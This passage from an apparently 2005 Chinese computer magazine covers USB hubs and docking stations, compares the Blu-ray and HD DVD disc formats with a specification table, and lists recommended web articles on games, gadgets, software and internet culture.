**解决方法：**USB HUB 或者扩展坞

如果你的USB接口不够用了，可以购买一个USB HUB，可以通过一个USB接口弄出四个USB接口来，而且还能够串联，非常方便，但是如果你需要更多的PCMCIA接口、打印口、音频接口，或者一些本来你的笔记本没有的接口的话，你就需要购买一个扩展坞了。扩展坞一般是针对某个型号的电脑来设计的，我们在购买的时候需要特别注意，不要买到和自己的笔记本型号不兼容的扩展坞哦。上图6就是IBM的X31专用扩展坞了，只要我们把扩展坞和笔记本的扩展坞接口连接上，即可获得包括USB口，视频接口，火线接口，甚至网线、CF、SD卡接口在内的一切接口了，大家说是不是非常方便呢？



(广东 幻想国度)

# 蓝光向左 HD DVD 向你走哪边

现在的DVD电影碟片采用MPEG2压缩算法，其原版DVD的信号源是高达1000多线的电影原始拷贝转成的数字式Betacam带，在达到520线电视播出的水平时，一部电影的容量最大不超过D9的近8.5G。当未来我们要面对高清电视播出达1000线以上水平的电影时，这区区的8.5G就远远不够了。DVD廉颇老矣，其未来之路由谁来延续？就在这时，两个候选人跳了出来，它们就是蓝光和HD DVD。

## 蓝光为什么这么“蓝”？

Blu-Ray Disk (简称BD，即蓝光DVD)早在1998年就已经着手开发了，那时甚至连第一代的DVD标准还没有完全确立下来。当时研发的核心就是索尼、松下和飞利浦，后来又得到了先锋、日立、三星、LG的鼎力支持。


从技术上面来说，先进的DVD技术采用波长为650nm的红色激光和NA值为0.6的聚焦镜头，盘片厚度为0.6mm。而蓝光技术则是采用了波长为450nm的蓝紫色激光，通过NA值为0.85的聚焦镜头将聚焦的光点尺寸缩到极小的程度。蓝光的盘片结构采用了0.1mm厚的光学透明保护层以减少盘片在转动过程中由于倾斜而造成的读写失常，极大地提高了存储密度。此外蓝光盘片的轨道间距为0.32mm，仅仅是当前红光DVD盘片的一半，而其记录单元的最小直径是0.14mm，要比DVD盘片的0.4mm小得多。因此蓝光DVD单面单层盘片的存储容量最高可以达到27GB，是当前红光DVD单面单层盘片容量(4.7GB)的近6倍，足以存储超过2小时的高清晰度数字视频内容或超过13小时的标准电视节目。这还仅仅是单面单层的容量，蓝光DVD和DVD一样可以做成单面双层、双面双层。其中TDK和先锋就先后开发出了单面4层容量达到100GB的蓝光光盘。



蓝光和普通DVD的对比

**小知识**
NA是Numerical Aperture(数值孔径)的简写，代表了物镜聚集激光的能力。由于激光在光盘上的照射光斑(形成记录点)直径=0.61 λ /NA，即与激光波长λ成正比，与物镜的数值孔径NA值成反比，所以NA值越大，越有助于缩小信息点宽度，从而提高存储密度。

## HD DVD又是从哪里来的？

既然蓝光是这么出色，HD DVD又是从何而来呢？这就要追溯到上一代的DVD格式之争了。在东芝取得DVD大战的胜利，而且升任DVD论坛技术委员会主席之后，为了保住领先的位置，它在2002年就发布了新一代容量达到30GB的光盘系统。东芝的新光盘系统同样也是采用了蓝色激光，单面单层的存储容量分别为25GB与28GB。但是后来索尼联合飞利浦和松下推出了蓝光DVD之后，东芝于2002年宣布与蓝光阵营分道扬镳，推出自己的一套新技术AOD(Advanced Optical Disk),也就是我们平常所说的HDDVD了。

### 蓝光与HD-DVD谁更优胜



| 规格 | DVD | HD DVD | Blu-ray Disc |
|---|---|---|---|
| 存储容量 (GB) | | | |
| ROM(只读) | 单层：4.7<br>双层：8.5 | 单层：15<br>双层：30 | 单层：23.3/25/27<br>双层：46.6/50/54 |
| WO/-R(追记) | 单层：4.7<br>双层：8.5 | 单层：15<br>双层：未定 | 单层：25 (计划)<br>双层：50 (计划) |
| -RW(复写) | 单层：4.7 | 单层：20<br>双层：32 | 单层：23.3/25/27<br>双层：46.6/50/54 |
| 激光波长 | 650nm (红) | 405nm (蓝紫) | 405nm (蓝紫) |
| 数值孔径 (NA) | 0.6 | 0.65 | 0.85 |
| 最小信息坑长度 (μm) | 0.4 | 0.204 | 0.16/0.149/0.139 |
| 数据轨道间距 (μm) | 0.74 | 0.40 | 0.32 |
| 信息点宽度 (μm) | 0.35 | 0.25 | 未知 |
| 盘片结构 | 0.6mm x 2 | 0.6mm x 2 | 1.1mm + 0.1mm |
| 保护层厚度 | 单层：0.6mm<br>双层：0.6mm | 单层：0.6mm<br>双层：0.6mm | 单层：0.1mm<br>双层：0.075mm |
| 扇区容量 | 2KB | 2KB | 2KB |
| ECC 数据块扇数 | 16 | 32 | 32 |
| 数据传输速率 (1X) | 11.08Mb/S | 36Mb/S | 36Mb/S |
| 信道脉冲频率 | 26.2MHz | 64.8MHz | 66MHz |
| 10000rpm 时最大传输倍速 | 16X | 8X | 12X |
| 调制方式 | EFMplus<br>(RLL 2,10) | ETM<br>(RLL 1,10) | 17PP<br>(RLL 1,7) |
| 记录位置 | 沟槽 | 沟槽/岸台 | 沟槽 |
| 旋转方式 | CLV | Z-CLV | CLV |
| 单位线速度 | 3.5m/s | 5.6-6.1m/s | 4.6-5.3m/s |
| 错误纠正方式 | RSPC | RSPC | LDC+BIS |
| 保护层厚度 (标准/最大允许) | 30 | 12.7 | 2.9 |
| 坑点深度 (标准/最大允许) | 0.37 | 0.187 | 0.097 |
| 坑点横向偏移 (标准/最大允许) | 6.9 | 3.2 | 5.4 |
| 双层间距 (标准/最大允许) | No | ~No | No + 10 或 20 分贝 |
| 视频编码 | MPEG-2 | MPEG-4-AVC、VC1、MPEG-2 | MPEG-4-AVC、VC1、MPEG-2 |
| 版权保护 | CPRM/CSS | AACS | AACS (可能) |

HD DVD除了同样使用波长为450nm的蓝紫色激光之外，最大的特点莫过于它的NA值并非原来的0.85，而是和传统DVD一样的0.65，单面单层容量为15GB，单面双层容量为30GB。各位看官可能会奇怪，为什么东芝会推出技术“落后”的产品呢？这里的根本原因就是蓝光DVD采用了0.85的NA值，而传统DVD是0.65，两者之间无法兼容，这样就直接加大了厂商过渡到蓝光DVD生产环境的成本投入，也大大延迟了蓝光成为下一代DVD标准的进程。作为DVD阵营的领导者，东芝自然希望新一代的格式能够和自己主导的DVD格式兼容，从而有一个平稳过渡的过程（好像DVD光驱能够读CD一样），这也是为什么东芝会离开索尼蓝光阵营的主要原因。而东芝推出的NA值为0.65的HD DVD标准，就是冲着兼容上一代的DVD格式而来的。

从技术上面来看，HD DVD与DVD非常接近，两者的盘片都是由两片0.6mm片基黏合而成，光学系统的透镜数值孔径(NA)都是0.65。由于蓝紫色激光的工作波长比红色激光短，光盘的坑槽缩短，因此HD DVD的生产工艺要求很高，特别对盘片的厚度不均匀性和翘曲的指标很高。因此在注塑成型和冷却环节的工艺要求就十分高了。虽然最大容量不如蓝光，但是HD-DVD出色的兼容性令它的前景被普遍看好，HD-DVD单面单层盘片可储存4小时以上的1125线高清晰度(HDTV)的电视图像，完全能够满足未来较长一段时间里面人们对光存储容量的需求。在2005年10月份，东芝甚至已经推出了全球首台能够读取HD DVD光盘数据的笔记本电脑，而且用户也可以用它来读取传统的DVD和CD光盘的数据，另外NEC也推出了30GB容量的HD DVD刻录机。

从数据上面看，无疑蓝光是占据了绝对优势，它的容量几乎是HD DVD的一倍，而且在视频编码方式方面也与HD DVD并驾齐驱，看上去就好像是D9和D5的区别一般。事实上，从更加深的层次去看，情况恐怕不是我们所见到的那样。首先从设计初衷去看，蓝光主要是为了录制HDTV，而不是为了取代DVD，因此它们率先发布的是BD-RW机型与光盘，至于BD-ROM规格也是近两年才有的事，而HD DVD的设计就是用来取代DVD的，因此从一开始就开发了ROM规格。

另外从视频编码方式上面看，蓝光主要是沿用目前的MPEG-2编码格式，但是这种格式要达到HDTV的1080i标准，码率至少得22Mb/s，一部132分钟的电影视频加上音频之后，一张最低容量的蓝光光盘刚刚够用。而HDDVD在设计之初就准备采用新的编码方式，那就是大家都很熟悉的MPEG-4编码以及微软的高清晰编码格式WMV-9。在采用MPEG-4高级视频编码进行压缩之后，只要12Mb/s的码率就已经完全可以达到HDTV的最高成像质量，比22Mb/s的MPEG-2有过之而无不及，同时还节省了大量的存储空间。按132分钟计算，视频数据容量仅为11.6GB，就算再加上三个音轨数据和相关的辅助数据，总容量也不会超过15GB，因此东芝的15GB最低容量是绰绰有余的。就算你要完全无损压缩的音轨，30GB的HD DVD也够用了，相比之下蓝光的编码技术就显得落后，而且有点准备不足了。

## HD DVD与蓝光光盘在结构很难统一



另外一个很重要的因素，那就是蓝光采用了全新的光盘结构，不可能使用现有的DVD生产线来完成光盘的生产，但HD DVD却能做到这一点，尤其是双层光盘的生产方面。根据东芝提供的数据，即使厂商只使用现有的DVD光盘生产线去生产HD DVD，也只需7秒即可生产一张HD DVD光盘，而且成品率高达95%。而蓝光不但要用全新的生产线，而且成品率也只有70%左右。对于光盘大规模生产来说，与现有设备间的兼容性对于投资者来说非常重要，因为这将涉及生产成本与最终的光盘价格。因此它也成了HD DVD最有力的竞争武器。另一方面，也因为蓝光的设计与DVD毫不兼容，从而提高了激光头的设计难度与生产成本，而HD DVD则不存在这种问题，正因为如此，光头生产大厂之一的三洋电机公司才加入了HD DVD阵营。

索尼似乎对这个消息有点“兴高采烈”的味道，原因就在于如果HD DVD成为PC中的主流，将被大量用于拷贝电影，而为了抗击盗版，电影业肯定会支持拷贝能力最低的格式，所以如果因此招致电影产业的反对，东芝肯定得不偿失。另外微软支持HD DVD更多是出于自己的自身利益，因为微软的Xbox 360即将和采用蓝光的索尼PS3展开激战。

目前，HD DVD获得了好莱坞四大电影制片厂：派拉蒙、环球、华纳兄弟以及新线影业的支持，不过这些公司可能会同时支持蓝光标准。而东芝则于近日完成了可刻录的HD DVD-R格式的开发，预计它将同录像机以及HD DVD PC驱动器一起于2006年4月上市，而索尼的蓝光ROM也于10月开发完成，决定成败的决战已经是一触即发了。

在标准格式的战场上，没有永远的朋友，也没有永远的敌人，前一段时间就有消息称两大阵营之间准备统一标准，这也让整个业界兴奋了好一阵子。可惜从根本上看，这两种技术是有分歧的，要统一起来实在是太难了。因为它们虽然都是采用蓝色激光读取和记录信息，但二者要在技术上达成统一确实存在困难。蓝光光盘的记录层(Recording Layer)距离光盘表面0.1毫米，而HD-DVD光盘的记录层距离光盘表面0.6毫米。就连索尼的PS游戏机设计者久多良木健也说，下一代DVD格式要统一已经不太可能了。

新一代的DVD究竟“姓”什么
在蓝光与HD DVD激战的一段时间里面，双方都不断地在改进着彼此的技术，其中蓝光推出了和HD DVD一样的视频编码方法弥补了自己的不足，而HD DVD也成功地完善了双面生产技术，让盘片容量可以轻松达到30GB，此外更加拉拢到了微软以及英特尔的支持，这两个对PC产业最有影响的巨头大大充实了HD DVD阵营的实力。

那么新一代的DVD究竟姓什么呢？是姓“蓝”还是“HD”呢？在你的心目中，今天已经决定要选谁了吗？或许让我们把这个疑问留到明年，一起看个究竟吧。
（广东 林海）



# 美文报

### 任天堂、索尼和微软

如果把任天堂、索尼和微软三个词放在一起，你会想起什么？自然是游戏机，现在三个公司已经推出了最新一代的主机，还等什么，快和小编一起看看这三款主机到底有何不同吧。
文章链接:http://www.tgfc.com/news/1434.htm
http://www.tgfc.com/news/1447.htm
http://www.tgfc.com/news/1456.htm

### 五笔输入法软件，你该用哪款

现在越来越多的朋友开始使用五笔输入法，连小编身边的几个用了快十年拼音输入法的同学都开始转学五笔。面对如此庞大的用户群，五笔软件也是层出不穷，对于一个五笔初学者，你应该选择哪款输入法呢？
文章链接:http://publish.it168.com/2005/0430/2005043004201.shtml?channel=11

### 加装镜头 手机变DC

手机虽然已经进入了百万像素时代，不过由于镜头的因素，拍摄的效果一直不好，加上只有数码变焦，又没有微距，真是拍远的不成，拍近的也不灵。难道手机拍照就真的一无是处了吗？别急，如果你有废弃的一次性相机、如果你有小型望远镜，一切都会改变……
文章链接:http://www.pconline.com.cn/pcjob/manage/mba/0505/616659.html

### “神化”版互联网由来……

你知道互联网、网站、即时通讯、Google、百度、3721这些公司是怎么来的吗？它们和上帝、圣母玛利亚、玉帝、王母娘娘有什么关系吗？如果你也和小编一样好奇，那还等什么？快去看看这篇搞笑网文吧。
文章链接:http://www.cnbeta.com/modules.php?name=News&file=article&sid=7556

### 聪明的朋友你看过来

这里有三道题，快去试试看，如果全部答对了，表示你真的是相当聪明。如果不幸答错了，也不要紧，只不过……
文章链接:http://www.pconline.com.cn/pcjob/rszj/0505/620662.html

### 圣斗士历表一览

十几年前，《圣斗士星矢》的漫画书风靡全中国，这么多年过去了很多人对他们还向当年的变形金刚一样记忆犹新。一起来回味一下吧！
文章链接:http://www.donews.net/jn365/archive/2005/05/13/378660.aspx

### STANLEY 博士的家

很多朋友都玩过一个叫红屋的解谜Flash小游戏，现在国内的高人也开发了一款类似的Flash游戏，如果你喜欢这种类型的Flash，那么你一定不能错过这款软件。在游戏一开始，你需要先在车库中找到钥匙……
游戏链接:http://www.flashempire.com/top10/top10play.php?id=4122

### 你昨晚作的什么梦

昨天，小特梦见他被人枪杀了，不知道代表了什么含义。于是，狂PK让他去看《周公解梦》，小特回答：“周公那时候有枪吗？” 柳絮飞又让他去看《梦的解析》，他又说没时间！怎么办？给他一个缩减版的《梦的解析》吧！
文章链接:http://www.news365.com.cn/wxpd/jkx/t20040413_59742.htm

### 显卡性能，谁说了算

很多人都说评价一款显卡是否够强只要用3DMark测试一下就知道了。而现在3DMark更是已经成为了测试显卡综合性能的基准测试。于是围绕着3DMark系列软件出现了许多辩论和争议。比如前段时间闹得沸沸扬扬的nVIDIA发布了在运行该基准测试时完全作弊的驱动程序事件。事件的影响之大，时至今日，双方再次合作的结果也没有恢复任何的可信度。现在，FutureMark只允许某些在它的“官方”驱动程序推荐中“被认可的”优化，这再次引发了驱动程序和作弊之间纠缠不清的问题。
3DMark系列是否能真正地检测电脑的游戏性能呢？它还是一个用于测量显卡在现今游戏中的性能的可靠基准测试吗？
原文链接:http://www.sudhian.com/showdocs.cfm?aid=674
译文链接:http://www.pconline.com.cn/diy/front/eval/graphics/0505/621809.html

### 流行游戏大宽屏HDTV 游戏

当显示器不断变大的时候，HDTV电影也已经开始流行，对于主流的PC游戏来说，支持宽屏高清模式已经成了必备的配置，这篇文章就为你介绍了6款支持HDTV的PC游戏。其中不乏你非常熟悉，甚至刚刚退出的游戏。可是你也许还不知道它们还有16:9或16:10宽屏显示的方式，其分辨率均可达到1280×720。
文章链接:http://www.pconline.com.cn/doc/0/8888038.shtml

### 当代汉语出版物中最常见的100个错别字

少出、不出错别字是编辑的必须做到的功夫，最近网上出现了一篇文章，据说审读了3000本图书、1000种期刊、100种报纸，并请100家新闻出版单位协助调查各自的用字差错，整理出了当代汉语出版物中最常见的100个别字。看了一下，确实是很容易犯错的词汇。虽然可能你不从事文字工作，但是经常写错字总不是好事，一起来学习一下，帮助编辑们找错字吧！
文章链接: http://news.xinhuanet.com/newmedia/2005-04/22/content_2863010.htm

### 你能收集175000款经典软件吗

就算你用电脑时间超过10年，你接触过的软件恐怕顶多也就几百种。你可知道，一个叫做EL的软件狂人，收集了175000款经典老软件，并且做了详细的分类，并在ebay出售。还不快去看看！
文章链接: http://www.donews.net/hakujoy/archive/2005/05/25/396567.aspx

### Game Boy Micro 到底有多大？

在前段刚刚结束的E3大展中，任天堂公司宣布了最新的手掌机——Game Boy Micro。这款与GBA SP性能相当的游戏机，一推出就受到了很多人的关注，那么这款掌机到底有多大呢？
文章链接:http://news.mypocket.com.cn/pages/20050519135800_70870.htm

### 游戏玩起来

游戏！游戏！这个令人疯狂的产业，当你沉迷游戏的时候可曾想过游戏产业的未来吗？PC World的专家说“下一代电脑游戏会更加电影化、网络化，并且会更令人上瘾。它们就要来了，在你的卧室里，在你的电脑上，甚至在你手中的Palm上。”不管你是否对游戏感兴趣，这篇专家的分析和前瞻文章绝对值得你阅读。
文章链接:http://www.pconline.com.cn/next_gear/1/2005/0426/12.shtml

### 背后的250人

推销行业一直是一个非常考验耐心的行业，要出售一套产品，你就必须像祥林嫂那样一遍遍不厌其烦地重复，向顾客介绍这套产品的优缺点。世界上最伟大的推销员是怎么做的？他说每个顾客的背后都有250人，如果失去了一个顾客，就等于失去了250个潜在顾客。
文章链接:http://www.pconline.com.cn/pcjob/manage/mba/0505/616659.html

### 这些本本为啥如此好卖

短短几天时间，已经有4个朋友向我咨询哪款笔记本电脑比较好了。我的回答比较简单而经典：“贵的自然就……”（狂PK在朋友心中的完美形象顿时一落千丈）事实真是如此吗？当然不可能，那一款优秀的笔记本应该具备哪些要素？来看看几款热销笔记本机型的特征剖析，你或许会找到答案。
文章链接:http://www.it.com.cn/f/notebook/055/26/118987.htm

### 电池也需要你呵护

电池是笔记本电脑的一个比较重要的部件，其状态直接关系到了笔记本电脑在缺少电源的环境中的工作能力。电池在笔记本电脑中也是一个比较严重的消耗部件，因此涉及到笔记本电池的保养和合理使用问题也是经常被讨论到的话题。并且不少朋友在对它的保养方面却不太正确。在这篇文章中你不仅可以学会电池保养的14招，而且还能应对一些硬件故障。
文章链接:http://www.pcworld.com.cn/how_to_use/1/2005/0401/327.shtml

### 诸葛亮、魏延的风险管理技术

过程决策程序图PDPC（Process Decision Program Chart）是一个被日本人复杂化了的名称，其实这项技术远没有其名字听起来那样“复杂”。早在三国时这项技术就已经有了雏形，《三国演义》中诸葛亮斩魏延的典故就是PDPC技术的成功应用案例。
文章链接: http://www.ccw.com.cn/cio/ciollife/life/htm2005/20050527_0654W.asp

### QQ之父的奋斗历程

马化腾，一个熟悉的名字。这个创造了中国互联网奇迹的商人与他所带领的腾讯公司一起，将中国的网络即时通信行业提升到一个新的高度，提升到足以与洋货M S N Messenger抗衡的程度。从1999年推出的OICQ99版本，到最新的QQ2005Beta1，笔者从来没有错过QQ的任何一个版本。很多人都很好奇QQ之父马化腾究竟是个什么样的人，那就得从他的奋斗历程开始讲……
文章链接:http://www.pconline.com.cn/pcjob/rszj/0504/589979.html

### NBA十大不可能破的纪录

相信读者当中有不少篮球迷。NBA的这十大障碍，有些实在不可思议到令人瞠目结舌，但别忘了，只要是纪录，就有被突破的可能，不信？棒球场上的“马里障碍”以及跳远的“贝蒙障碍”，一度都是不可挑战的巨大成就，但现在皆已成了昨日黄花。打破这些纪录的人会是谁，你有希望吗？
文章链接: http://www.donews.net/jn365/archive/2005/05/18/385638.aspx

### 传说中的编程达人

编程功力一直是衡量一个高手综合实力的一项重要指标，编程水平极高的人，我们都会尊称其为“编程达人”。这儿就有3个达人，据说是世界上编程功力最高的人。
文章链接:http://www.pconline.com.cn/pcjob/process/other/others/0505/619030.html

### Google 的神秘入口

Google就像一个大宝藏，蕴含着无穷无尽的金银财宝。要进入这个神秘之地，首先要找到洞口才行！MAC风格的入口、微软风格的入口、Linux风格的入口、小猪入口、黑客专用入口……很好玩吧？
文章链接: http://www.donews.net/jn365/archive/2005/05/18/385638.aspx## 英语绕口令
吃葡萄不吐葡萄皮，不吃葡萄倒吐葡萄皮。不只是汉语中有绕口令，英语中也有许多的绕口令，如果觉得自己英语口语总是不流利，不妨找些英语绕口令来练习练习嘴皮子。
文章链接:http://www.wwenglish.com/en/ez1/2500.htm

## Google 也吹‘黑哨’
想在互联网上找资料？Google 一下！这种曾经令国内网民视为时髦的美好体验正随着Google 越来越近的脚步而渐行渐远。从2005年3月份起，Google 开始大规模清理所谓的中文网站，两个月内，波及上千家中文网站。从这些是是非非中，我们可以窥探一点搜索网站的内幕。
文章链接:http://www.ccw.com.cn/news2/internet/htm2005/20050526_10UA4.htm

## 手机选丑
从来都是听说“选美”，还没见过选丑呢。这不？已经有网友对目前出现在市场中的手机进行了一次非常全面的评比，当然，这次评比最主要的因素还是外观。这些难看的手机还根据难看程度进行了排名，不过每个人的审美观都不同，这次评比还是带有相当程度的主观性，或许别人眼中不怎么样的手机，却非常符合你的眼光。
文章链接:http://www.pcpop.com/doc0/8989322.shtml

## 工包货，让我看清你
在中关村，你随处可以见到各类IT产品的工包货。所谓工包货，就是指以非常简陋的包装、甚至是没有包装直接发给消费者。往往这些产品的价格都比较低，但如果你只看价格，那么贪便宜有可能让你吃了大亏。本文就以照片的形式，揭露了许多所谓工包产品以次充好的问题。
文章链接:http://publish.it168.com/2005/0518/20050518007201.shtml?positioncode=1210

## 猫脸识别门禁系统
很多住平房的人家喜欢在大门上为自家的小猫开个专用的小门，以方便它进出，但这个门也成了很多野猫“蹭食”的进出口，于是国外的高手就DIY出了“猫脸识别门禁系统”，只有自家的小猫才能进入自己的门，像什么小鸟、小鸡、小狗……通通都进不了门。
文章链接:http://www.quantumpicture.com/Flo_Control/flo_control.htm

## Microsoft vs. Google
最近 Microsoft 和 Google 受到了很多人的关注，这两家最耀眼的明星，在E-mail、搜索、Blog、桌面搜索等方面展开了全方位的竞争。那么作为用户，我们应该选择哪一款产品呢？是 Google 的搜索，Microsoft 的桌面搜索吗？或是其他的选择。
文章链接:http://www.pcworld.com.cn/next_gear/1/2005/0527/25.shtml

## IE7.0的Blog
编辑部里的撞车是微软忠实的Fans，自然对IE情有独钟，对于Maxthon、GreenBowser等浏览器一概不用，于是他最关心的就是IE 7.0的推出日期，以及各种新加的功能，他现在这些天关注的就是IE 开发者日志的Blog。
附:IE 7.0 Beta 1中的新增功能
- ①用户通过鼠标中间键或Ctrl+点击链接，就能打开新标签；
- ②地址栏向前向后控制仍作为框架的一部分；
- ③当前的标签浏览完全支持多线程。每个标签就是一个独立的线程。这可以加快IE7.0速度。
文章链接:http://blogs.msdn.com/ie/archive/2005/05/26/422103.aspx

## 专业搜索，精！准！快！
你是否花费了很多时间在搜索信息上？如果你总是使用同一个搜索引擎来查阅信息，那么，答案将是肯定的。其实在很多时候，你只需使用一个专业搜索工具，搜索效率就会提高很多。现在，几乎所有的搜索引擎都在朝着一个方向发展，那就是专业化。
文章链接:http://www.pcworld.com.cn/features/1/2005/0608/640.shtml

## “色友”必读 优秀照片的秘密
这是一篇2002年的文章，即使在它的原出处网站都很难找到，但其中所介绍的心得、技法却极为经典，现在读来还能让人回味无穷，受益匪浅，当然对于眼前一片黑的菜鸟，可能会感觉有些高深，但对于各位初级、中级“色友”却是难得的好教程。
文章链接:http://www.bestphoto.cn/article_view.asp?id=26

## 视频转换你用‘谁’？
视频转换一直让人头疼，进行转换时，电脑几乎处于“瘫痪”状态。因此衡量一款视频软件的好坏，就要从转换速度、支持的格式多少、是否容易上手等多方面参考。如果你也正在被这些问题所困扰，那么这篇文章你就不能不看，它会告诉你应该选哪款视频软件。
文章链接:http://tech.sina.com.cn/s/2005-06-02/090264524.shtml

## Xbox的前世今生
在微软宣布进入家用游戏机行业的那一刻起，其第一台游戏主机Xbox就一直是人们的关注焦点。Xbox可以说失败了，也可以说是成功了。五年后的今天，微软凭借着强大的实力支持，挟Xbox闯入主机游戏市场之威，以迅雷不及掩耳之势再次推出新一代的Xbox主机。现在让我们来回顾Xbox的前世今生……
文章链接:http://www.donews.net/j1zxxp/archive/2005/06/12/425193.aspx

## 谁都能当千万富翁
没有人能拒绝“千万富翁”的诱惑，毕竟这就是很多人的奋斗目标。那如何成为一名“千万富翁”呢？临近毕业，马上就要走入社会的你是否想过千万财富的积累就要从现在做起了……
文章链接:http://finance.eastday.com/eastday/finance/node39294/node39392/node39393/userobject1ai1101835.html

## 黑客英语99句
要想成为真正的黑客，首先要掌握什么？DOS命令？网络基础？都不是，你应该先学英语！网络世界里面有大量特殊的英语词汇，闲来掌握一下吧！
文章链接:http://www.donews.net/gogoxboy/archive/2005/06/12/425796.aspx

## 为你的爱机‘体检’
刚刚找人帮忙攒好的电脑，自然是要对其性能有所了解，但是如果连配件的基本型号都不知道，那怎么可能对性能有更深入的了解呢？所以在对性能进行测试之前，还是先对爱机的配置进行个全面的了解吧。
文章链接:http://www.pconline.com.cn/pcdu/pingce/0506/32054.html

## Blog中的‘大富翁’游戏
好事者仿照大富翁的游戏棋制作了一张Blogger版的大富翁棋谱。在这张棋谱上我们可以看到：哪些网站对于Blogger来说，才是值得占领的领地。
文章链接:http://webleon.net/2005/05/blogger_29.html

## 20款声卡的‘数字输出’质量横评
过去的七八年间，多媒体音频爱好者们对声卡的关注几乎全是模拟输出音质水平，一颗CODEC芯片或是一颗运放芯片都会成为讨论的焦点，而主芯片更是备受关注。随着市场上面向多媒体音频的优秀音频解码器的出现并逐渐增多，不少处于时代前沿浪尖的多媒体音频爱好者们开始关注声卡的数字输出，本文所开启的系列横评就是将具备S/P DIF数字输出的常见主流声卡聚集在一起，对其数字输出水准做一个评判，以期给准备购置音频解码器的朋友一个有力参考。
文章链接:http://topic.zol.com.cn/2005/0516/170679.shtml

## 深入分析八大LCD厂商的售服策略
厂商服务策略的优劣，是能否提升品牌口碑的关键，也是厂商与用户能否建立持久的良性关系，继而获得无形资产的重要途径。面对液晶显示器市场残酷的价格竞争，绝大多数厂商开始转向服务市场，塑造服务品牌，提升服务质量，将成为企业在市场竞争中求得发展的核心竞争力。
为使广大消费者能够全面了解液晶显示器厂商的服务政策、服务能力与服务质量，互联网调研中心ZDC对液晶显示器品牌服务市场进行了大量的资料收集与调查，并在本专题客观地展现出目前主要液晶显示器厂商的服务策略、服务体系与服务网点结构。
文章链接:http://topic.zol.com.cn/2005/0427/167182.shtml

## 比比谁更长
你知道世界上网站域名是什么吗？近日有一个男子向吉尼斯世界记录发起了挑战，他的挑战项目是其网站www.thelongestdomainnameintheworldandthensomeandthensomemoreandmore.com 的超长网址，这个网址其实是一个句子："the longest domainname in the world and then some and then some more and more"（世界上最长的域名远远不止这些，还会越来越长）。但可惜的是最后这项记录申请被吉尼斯驳回了，你能猜到原因吗？
文章链接:http://www.postshow.net/node/177
相关链接:http://www.thelongestdomainnameintheworldandthensomeandthensomemoreandmore.com

## 一起欺负卡通小人
卡通小人剪纸画，没什么稀奇……可是如果你能用手捏卡通小人的脸，揪卡通小人的辫子呢？来看看这些爆笑的可以欺负的卡通小人剪纸吧。
文章链接:http://comic.sina.com.cn/2004-09-23/ba27345.shtml

## 专家教你三年省电1万度
别以为节能和环保与你无关，当电力使用高峰时，停电或供电故障在所难免，家庭主妇在夏季高峰时也常常为高额的用电费用而感到苦恼，这些都是由于节能措施不理想所引起的。6月10日是北京的节能宣传周，几位与能源有关的公司老总向大家传授了各种节能方法，号称能帮你“三年比邻居节省1万度电”。
文章链接:http://tech.sina.com.cn/d/2005-06-13/1037633815.shtml

## 拳打笔记本，脚踢数码相机
把笔记本电脑扔在水里，把数码相机往水泥地上砸，开车从手机上碾过。究竟数码产品能否经得住我们的“严刑拷打”？这篇文章的作者尝试了各种能够摧毁硬件的方法，无论是其测试方式还是所得出的测试结果。

## 搞怪液晶显示器
提到液晶显示器，你头脑中可能已经浮现出了一块黑色的平板和一个毫无生气的底座支架。但今天要给你展示的是一系列搞怪的液晶显示器，比如形如穿着篮球背心的、像卡通绵羊的、看起来像大苹果的，甚至还有看起来像薯条的。看过之后，你可能会想：这些真的是液晶显示器吗？
文章链接:http://www.pcpop.com/doc/0/93/93397.shtml

## AMD E3版K8性能突围战记
AMD的Athlon64 3000+(E3)CPU自出世以来，就注定了战斗的命运。它背负着抗争、突围的艰巨任务。它所采用的威尼斯(Venice)核心给用户带来了多项性能、功能超群的技术，还加入了SSE3多媒体指令，但这只是冰山一角。本文通过技术讲解、分析，再配以全面的产品测试，将E3版K8完完全全地展现在大家面前。
文章链接:http://topic.pcpop.com/hard_cpu_0504/

## 十大软件技术 让失业远离你
这是一篇主要给立志成为程序员的朋友看的文章，其中列出了当前最重要的十大开发技术，只要你精通其中一门便不会再为就业而担心，如果你能精通更多，那么失业将永远和你远离，当然你还要有文章中所说的第十一大技能，那就是培养好奇心，要安排时间留心、研究、试验新的开发技术和工具。
文章链接:http://www.yourblog.org/Data/20043/19569.html

## 制作漂亮的三格漫画
喜欢加菲猫的朋友要注意了，现在有一个网站推出了用加菲猫的卡通形象制作出三格漫画的Flash，你可以用加菲猫中的各个人物形象制作出不同的三格漫画，为它们加上不同的对话内容。还等什么？快去制作自己的三格漫画吧！
文章链接:http://www.garfield.com/fungames/comiccreator.html

## 你了解这些3D专业名词吗
Application Programming Interface、OpenGL、Heidi、Fog Effect、Attenuation……这些名词你是否都了解呢？是不是很多看得都非常眼熟？可不要以为这些专业名词只出现在专业的3D图形绘制软件中，其实，很多名词也同样出现在了不少3D游戏中。不管是从事3D绘图工作的朋友，还是喜欢玩游戏的朋友，都不要错过本文。
文章链接:http://www.pconline.com.cn/pcjob/other/design/3dmax/0506/634952.html

## 独具创意的广告
有些独具创意的广告效果，可以用“震撼人心”来形容：巨大的足球穿透大厦的铜墙铁壁、二十多层的大楼在随风扭动……但是，请不要相信你的眼睛，那些都不是真的。
文章链接:http://www.arting365.com/htmldata/2005_06/112/35/article_7419_1.html

## 美国人如何看待时间
美国的Day-Timers对美国成年人做了一组关于如何分配自己时间的调查，调查涉及了工作、生活的方方面面，其中有一些非常有意思，比如美国成年男性每周要工作50小时，女性则每周工作42小时；40%的美国人会为了额外的收入愿意多工作10小时；39%的人吃午饭的时候仍在工作，而有15%的人经常在工作日不吃午饭……
文章链接:http://www.daytimer.com/Time-Management-Resources/Adults-and-their-Time/F6FE7C43269E4564865901E31A46CF7E/False

## 查询一下你的QQ号码值多少钱
可能很多网友还记得2004年印度洋海啸的时候，腾讯公司总裁马化腾捐出五位至尊QQ号码——88888的拍卖款的事吧？当时这个号码在淘宝网以26.02万元成交，让很多人啧啧不已。不过你想知道自己的QQ号码价值几何么？这个名叫“QQ价值评估大师”的站点可以满足你这个心愿。我查了一下，那个著名的腾讯客服号码10000的价值是45万人民币……
文章链接:http://qq.200.net/

## 鞋带的N种系法
大多数人在幼儿园甚至更早的时候就学会了自己系鞋带，可是你会几种系法？你是否知道原来鞋带还有好多种方法，每种方法都有示意图。别以为有了图就能轻易学会这些系法，要看明白也是相当不容易的。
文章链接:http://www.poseshow.com/node/286

## 中国魔兽争霸四天王
